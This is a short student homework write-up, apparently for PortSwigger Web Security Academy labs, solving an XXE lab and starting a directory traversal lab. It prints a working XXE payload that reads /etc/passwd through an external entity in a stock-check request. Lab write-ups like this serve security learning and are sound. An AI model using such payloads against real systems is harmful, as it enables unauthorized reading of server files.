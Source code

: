 # HOMEWORK 7. Attack to server. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:

![xxe](xxe.png)

The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Task 2. Directory traversal

### Part 1

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) is presented below:

![dir-traversal-1](dir-traversal-1.png)

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

